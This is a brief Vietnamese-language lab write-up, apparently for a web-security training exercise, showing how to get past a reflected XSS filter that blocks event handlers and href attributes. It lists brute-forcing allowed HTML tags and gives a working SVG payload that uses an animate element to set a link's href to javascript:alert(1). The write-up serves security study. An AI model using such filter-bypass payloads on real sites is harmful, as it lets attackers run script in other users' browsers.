

## Reflected XSS with event handlers and href attributes blocked (REFER)

1. Brute-force tất cả các thẻ html để xác định những thẻ không bị block


2. Nhận được một vài thẻ html hợp lệ như : a, animate, image, svg, title,text

3. Kết hợp các thẻ trong whitelist trên. Craft payload

```
<svg>
    <a>
        <animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text>
    </a>
</svg>
```

